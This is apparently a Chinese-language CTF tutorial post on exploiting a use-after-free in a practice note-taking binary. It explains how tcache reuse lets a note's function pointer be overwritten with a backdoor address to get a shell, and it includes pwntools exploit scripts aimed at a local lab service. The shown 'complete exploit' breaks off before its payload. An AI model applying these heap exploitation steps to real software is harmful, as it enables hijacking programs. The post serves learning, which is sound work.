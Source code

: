 當空間被釋放後，可以觀察到該空間進入了 tcache bins。我們可以嘗試拿到 index 為 0 的 Note 的 function pointer 空間，進行測試：

![image](/images/iron2024/day24_image3.png)

此時我們使用簡單的 script 會發現可以覆蓋原本的 function pointer。如果我們再 print 這個 note 的 content，就能控制執行流程。

```py=
from pwn import *

r = process('../uaf/share/uaf')
# r = remote('127.0.0.1', 10012)

gdb.attach(r)

def add(size, data):
    r.sendlineafter(': ', '1')
    r.sendlineafter(': ', str(size))
    r.sendlineafter(': ', data)

def delete(idx):
    r.sendlineafter(': ', '2')
    r.sendlineafter(': ', str(idx))

def print_(idx):
    r.sendlineafter(': ', '3')
    r.sendlineafter(': ', str(idx))

add(0x20, 'aaaa') # 0
add(0x20, 'bbbb') # 1
delete(0)
delete(1)
add(0x10, 'ccccdddd')
r.interactive()
```

查看狀況會發現確實蓋到了原本的 function pointer

![image](/images/iron2024/day24_image4.png)

此時如果去 print 那一塊 note 的 content 就會呼叫到此 function pointer，所以我們可以藉此控制執行流程

那程式中有一個後門函式，我們可以使用 objdump 來確認其位址，發現後門在 0x4015c8。我們可以將這個地址寫入 function pointer，並成功打開 shell。

![image](/images/iron2024/day24_image5.png)

所以我們將 address 填入，並且在 print 出內容，這樣就可以成功開啟 shell 了

完整 exploit：

```py=
from pwn import *

# r = process('../uaf/share/uaf')
r = remote('127.0.0.1', 10012)

def add(size, data):
    r.sendlineafter(': ', '1')
    r.sendlineafter(': ', str(size))
    r.sendlineafter(': ', data)

def delete(idx):
    r.sendlineafter(': ', '2')
    r.sendlineafter(': ', str(idx))

def print_(idx):
    r.sendlineafter(': ', '3')
    r.sendlineafter(': ', str(idx))
```
